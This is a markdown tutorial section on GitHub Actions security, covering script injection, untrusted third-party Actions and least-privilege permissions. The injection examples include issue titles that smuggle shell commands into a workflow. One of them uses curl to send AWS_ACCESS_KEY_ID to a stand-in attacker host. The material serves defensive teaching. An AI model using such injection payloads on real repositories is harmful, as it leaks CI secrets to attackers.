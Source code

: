 # Section 10: Security & Permissions

## Script Injection
```
A value, set outside a Workflow, is used in a Workflow
Example(s):
    - Issue title used in a Workflow shell command
        -- Workflow / command behavior could be changed
```
Example Steps:
1. Create an issue entitled `Something's wrong!`
```
Workflow(script-injection.yml) runs as expected
```
2. Create an issue entitled `a";echo Got your secrets"`
```
Workflow(script-injection.yml) runs with unexpected behavior:
> echo Got your secrets

How it works:
> `a"` closed Workflow(script-injection.yml)'s `issue_title="`
> `;echo Got your secrets` injected unexpected behavior
> trailing `"` closed Workflow's trailing `"`

Original Command:
> issue_title="${{ github.event.issue.title }}"

Final command:
> issue_title="a";echo Got your secrets""
```
3. Create an issue entitled `a"; curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`
```
How it works:
> Does similar trick as Example 2
> Attacker can extract interpolated environment variable `AWS_ACCESS_KEY_ID` and store it somewhere else
```

## Malicious Third-Party Actions
```
Actions can perform any logic, including potentially malicious logic
Example(s):
    - A third-party Action that reads and exports your secrets
Solution(s):
    - Only use trusted Actions and inspect code of unknown / untrusted authors
```
### Using Actions Securely
#### Only use your own Actions
```
Pros: Highest level of security
Cons: Considerable amount of effort
```
#### Only use Actions by verified creators
![Github Verified Creator](./images/GitHub-verified-creator.png)
Look for `Creator verified by GitHub` check mark
```
Pros: Less amount of effort
Cons: Still not a 100% guarantee
```
#### Use all public Actions
```
Pros: Solves most of the problems you might encounter
Cons:
  - Lowest level of security
  - You must analyze the Action code first before using it
```

## Permission Issues
```
Avoid overly permissive permissions (Least Privilege Principle)
Example(s):
    - Only allow checking out code ("read-only")
Solution(s):
    - GitHub Actions supports fine-grained permissions control
```
[Assigning permissions to jobs](https://docs.github.com/en/actions/using-jobs/assigning-permissions-to-jobs)